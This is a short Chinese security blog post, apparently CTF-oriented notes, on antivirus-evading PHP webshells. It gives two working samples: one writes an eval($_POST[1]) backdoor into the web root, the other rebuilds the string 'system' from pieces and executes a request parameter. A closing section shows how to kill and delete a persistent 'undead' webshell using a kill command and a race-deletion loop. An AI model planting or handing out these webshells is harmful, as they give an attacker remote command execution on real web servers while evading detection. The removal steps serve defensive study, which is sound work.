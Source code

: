 ```yaml
---
title: 免杀马
date: 2023-08-31 17:43:18
categories:
- 网络安全
tags:
- web 
description: |
    也就这样,太浅了
---
```


### 1

```php
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?> 
```

### 2

```php
<?php 
    $poc="s#y#s#t#e#m"; 
    $poc_1=explode("#",$poc); 
    $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5];
    $poc_2($_REQUEST['1']);
?>
```

### 查杀

- `ps aux | grep www-data | awk '{print $2}' | xargs kill -9`

- 创建一个和不死马生成的马一样名字的目录；

- 编写一个使用ignore_user_abort(true)函数的脚本，一直竞争写入删除不死马文件，其中usleep()的时间必须要小于不死马的usleep()时间才会有效果。简单示例：

  ```php
  <?php
  while (1) {
    $pid = 不死马的进程PID;
    @unlink(".ski12.php");
    exec("kill -9 $pid");
    usleep(1000);
  }
  ?>
  ```
  